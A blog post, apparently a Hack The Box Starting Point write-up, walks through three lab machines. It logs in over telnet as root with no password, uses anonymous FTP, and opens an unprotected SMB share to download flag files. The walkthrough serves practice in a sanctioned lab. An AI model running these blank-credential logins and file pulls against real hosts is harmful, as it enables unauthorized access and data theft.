 ```yaml
---
layout: post
title: 'HTB | Tier 0'
permalink: /htb/starting-point/tier-0/
---
```


# Meow
## Connection
We just need to connect with telnet. The user will be root, with no password.
{% highlight bash %}
> telnet 10.129.53.229
> Meow login: root
{% endhighlight %}

## Flag
Then we will have the flag just there.
{% highlight bash %}
> ls
> cat flag.txt
{% endhighlight %}

---

# Fawn
## Connection
In this case we need to make a connection with ftp. We will use the **anonymous** user to connect, with no password.
{% highlight bash %}
> ftp 10.129.1.14
Name (10.129.1.14:kali): anonymous
Password:
{% endhighlight %}

## Flag
With **get**, we can download the file.
{% highlight bash %}
ftp> ls
ftp> get flag.txt
ftp> exit

> cat flag.txt
{% endhighlight %}

---

# Dancing
## Connection
We will need to use samba to connect. With the option **-L** we can see all the folders we have. We can see that the last one doesn't have protection.
{% highlight batch %}
> smbclient -L //10.129.119.218/
        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        WorkShares      Disk 
> smbclient //10.129.119.218/WorkShares
{% endhighlight %}

## Flag
With the command **get** we can download the file.
{% highlight batch %}
smb: \> ls
smb: \> cd James.P\
smb: \James.P\> ls
smb: \James.P\> get flag.txt
smb: \James.P\> exit

> cat flag.txt 
{% endhighlight %}

